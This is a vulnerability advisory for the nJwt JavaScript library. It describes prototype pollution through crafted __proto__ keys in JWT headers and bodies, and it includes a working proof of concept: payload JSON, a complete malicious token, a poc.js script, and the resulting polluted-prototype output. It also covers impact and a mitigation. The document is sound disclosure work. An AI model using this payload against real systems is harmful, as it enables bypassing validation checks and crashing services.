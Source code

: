 # Prototype Pollution in nJwt library 

## Description
The nJwt library is susceptible to prototype pollution, particularly affecting the `JwtHeader` and `JwtBody` objects. These objects lack validation to ensure that attributes assigned to them don't resolve to the object prototype. The problem lies within the `Parser.prototype.parse` method, which is invoked when a user attempts to verify a JWT token using the `nJwt.verify(token, signingKey)` method.

By adding or modifying attributes of an object prototype, it is possible to create attributes that exist on every object and its inheritance or bypass certain checks. This can be problematic if the software depends on the existence or non-existence of certain attributes, or uses pre-defined attributes of object prototype (such as `hasOwnProperty`, `toString`, or `valueOf`).

## Proof of Concept (PoC)
Create a new JWT token with `header` and `body` as follows:

JWT Header
```
{
  "typ": "JWT",
  "alg": "HS256",
  "__proto__": {
    "compact": null,
    "reservedKeys": ["typ", "random_gibberish"] // original: ["typ", "alg"]
  }
}
```

JWT Body
```
{
  "sub": 1,
  "scope": "user",
  "jti": "4cf58968-e553-4ebd-8d52-1407c654e8d6",
  "iat": 1713925867,
  "exp": 1713929467,
  "__proto__": {
    "compact": null,
    "toJSON": null,
    "polluted": true
  }
}
```

Resulting Token (Example)
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsIl9fcHJvdG9fXyI6eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsIl9fcHJvdG9fXyI6eyJjb21wYWN0IjpudWxsLCJyZXNlcnZlZEtleXMiOlsidHlwIiwicmFuZG9tX2dpYmJlcmlzaCJdfX19.eyJzdWIiOjEsInNjb3BlIjoidXNlciIsImp0aSI6ImJhZmIxNmNlLTIwZDYtNGNkNy05NDgzLTY1YTA5NThhOGU2NCIsImlhdCI6MTcxMzk0NTM3OSwiZXhwIjoxNzEzOTQ4OTc5LCJfX3Byb3RvX18iOnsiY29tcGFjdCI6bnVsbCwidG9KU09OIjpudWxsLCJwb2xsdXRlZCI6dHJ1ZX19.0XBjesxGkSMBjI5_LrwobgoyG-VXI2HCXTGVU-fLFuk
```

Then, supply the token to be verified with `nJwt.verify()` function, for example:
```js
// poc.js

var nJwt = require('njwt');

var secureRandom = require('secure-random');
var signingKey = secureRandom(256, {type: 'Buffer'});

var token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsIl9fcHJvdG9fXyI6eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsIl9fcHJvdG9fXyI6eyJjb21wYWN0IjpudWxsLCJyZXNlcnZlZEtleXMiOlsidHlwIiwicmFuZG9tX2dpYmJlcmlzaCJdfX19.eyJzdWIiOjEsInNjb3BlIjoidXNlciIsImp0aSI6ImJhZmIxNmNlLTIwZDYtNGNkNy05NDgzLTY1YTA5NThhOGU2NCIsImlhdCI6MTcxMzk0NTM3OSwiZXhwIjoxNzEzOTQ4OTc5LCJfX3Byb3RvX18iOnsiY29tcGFjdCI6bnVsbCwidG9KU09OIjpudWxsLCJwb2xsdXRlZCI6dHJ1ZX19.0XBjesxGkSMBjI5_LrwobgoyG-VXI2HCXTGVU-fLFuk";

nJwt.verify(token, signingKey);
```

As a result, the `JwtHeader` and `JwtBody` attributes will be polluted as follows:

JWT Header
```
[JWT Header] Attribute Before Pollution:  JwtHeader { typ: 'JWT', alg: 'HS256' }
[JWT Header] Prototype Before Pollution:  { reservedKeys: [ 'typ', 'alg' ], compact: [Function: compact] }

[JWT Header] Attribute After Pollution:  { typ: 'JWT', alg: 'HS256' }
[JWT Header] Prototype After Pollution:  { compact: null, reservedKeys: [ 'typ', 'random_gibberish' ] }
```

JWT Body
```
[JWT Body] Attribute Before Pollution:  JwtBody {}
[JWT Body] Prototype Before Pollution:  { toJSON: [Function (anonymous)], compact: [Function: compact] }

[JWT Body] Attribute After Pollution:  {
  sub: 1,
  scope: 'user',
  jti: 'bafb16ce-20d6-4cd7-9483-65a0958a8e64',
  iat: 1713945379,
  exp: 1713948979
}
[JWT Body] Prototype After Pollution:  { compact: null, toJSON: null, polluted: true }
```

## Impact
An arbitrary user can override existing attributes with ones that have incompatible types, which may lead to a crash, or bypass certain checks via attribute modification. It might also be possible to create polluted attributes on every object inheriting from `JwtBody` and `JwtHeader` objects.

For example, in `JwtHeader` object, there is a mechanism that prevents any additional attributes beyond the reserved keys (`typ` and `alg`) from being re-added by filtering them out during object instantiation:

```
function JwtHeader(header){
  // ...
  if(header){
    return Object.keys(header).reduce(function(acc,key){
      if(self.reservedKeys.indexOf(key)===-1 && header.hasOwnProperty(key)){ // can't re-assign 'typ' and 'alg' as they are in reservedKeys array.
        acc[key] = header[key];
      }
      return acc;
    },this);
  }else{
    return this;
  }
}
JwtHeader.prototype.reservedKeys = ['typ','alg'];
```

However, as we can modify the `JwtHeader.prototype.reservedKeys` prototype attribute and practically inserting any value into the array, we can bypass such checks.

## Mitigation
This issue can be fixed by freezing the prototype, or by implementing validation to check for prototype keywords (`__proto__`, `constructor` and `prototype`), where if it exists, the function denies merging it into `JwtBody` and `JwtHeader` object, thus preventing the prototype pollution vulnerability.
